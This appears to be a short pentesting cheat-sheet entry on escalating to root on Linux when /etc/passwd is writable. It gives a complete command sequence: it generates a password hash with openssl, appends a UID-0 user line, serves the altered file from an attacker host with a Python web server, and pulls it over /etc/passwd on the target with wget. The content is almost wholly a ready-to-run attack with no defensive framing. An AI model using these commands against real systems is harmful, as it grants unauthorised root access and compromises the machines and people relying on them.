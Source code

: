 # passwd

If you can write to /etc/passwd on your target, you can escelate your privileges to root bei adding a new user.

## Example
```bash
# on target

cat /etc/passwd > passwd2

# on host

wget $TARGET/passwd2

openssl passwd 'P@ssW0rd'

$1$CfB6T.JH$U6Jbqet3kChlXCWzRAu7y0

echo 'newuser:$1$CfB6T.JH$U6Jbqet3kChlXCWzRAu7y0:0:0:root:/root:/bin/bash' >> passwd2

mv passwd2 passwd

python3 -m http.server 8080

# on target

cd /etc

wget http://$HOST/passwd
```